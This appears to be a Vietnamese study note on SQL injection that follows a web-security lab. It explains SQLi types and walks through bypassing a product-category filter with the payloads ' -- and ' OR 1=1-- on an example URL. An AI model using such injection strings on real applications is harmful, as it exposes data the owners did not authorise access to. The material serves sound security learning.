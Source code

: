 # SQL Injection

---

**What is SQL injection (SQLi)?**

> Là lỗi bảo mật web cho phép attacker can thiệp vào các truy vấn đối với CSDL. Thường sẽ cho phép attacker xem data mà không được cấp phép. Nhiều case thì attacker có thể thêm, sửa, xóa dữ liệu tùy ý.

---

**Tác hại của SQLi**

> Một cuộc attack SQLi thành công sẽ dẫn tới hậu quả khó lường như bị truy cập vào những data bí mật, nhạy cảm chẳng hạn như passwd, thẻ tín dụng, thông tin cá nhân...

---

**SQLi example**

1. Retrieving hidden data: Sửa đổi truy vấn SQL để trả về thêm kết quả
2. Subverting applicatication logic: Thay đổi query để can thiệp vào logic của app
3. Union attacks: Truy xuất các data từ các table khác nhau
4. Examining the database: Trích xuất thông tin về version, structure của database
5. Blind SQL injection: Kết quả query sẽ được trả về trong response của app

---

## Retrieving hidden data

Ví dụ:

```
https://insecure-website.com/products?category=Gifts
```

Trên database query với `category= Gifts` và đã được bán với `released=1`:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Attacker có thể sửa lại query và hiện thị tất cả các sản phâm kể cả chưa released hay đã released:

```
https://insecure-website.com/products?category=Gifts'--
```

Query trên db:

```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

Với **--** là comment trong SQL, nó sẽ bỏ qua `AND released = 1`

Đi xa hơn, attacker có thể khiến ứng dụng hiện thị tất cả sản phẩm trong bất kì `category` nào:

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

Query:

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

Vì 1=1 là luôn đúng, query sẽ trả về tất cả

### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

> Des: Phòng thí nghiệm này chứa lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Khi người dùng chọn một danh mục, ứng dụng sẽ thực hiện một truy vấn SQL như sau:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

> Để giải quyết phòng thí nghiệm, hãy thực hiện một cuộc tấn công SQL injection khiến ứng dụng hiển thị chi tiết của tất cả các sản phẩm trong bất kỳ danh mục nào, cả đã phát hành và chưa phát hành.

Bài này chỉ cần thêm chuỗi `'--` sẽ ra tất cả các sản phẩm của 1 category
Hoặc lấy tất cả category thì thêm chuỗi `' OR 1=1--`

Nếu sử dung trên burp suite thì phải control + u để encode sang html
![img](../asset/sqli-1-SQL-injection-vulnerability-in-WHERE-clause-allowing-retrieval-of-hidden-data-0.png)
![img](../asset/sqli-1-SQL-injection-vulnerability-in-WHERE-clause-allowing-retrieval-of-hidden-data-1.png)
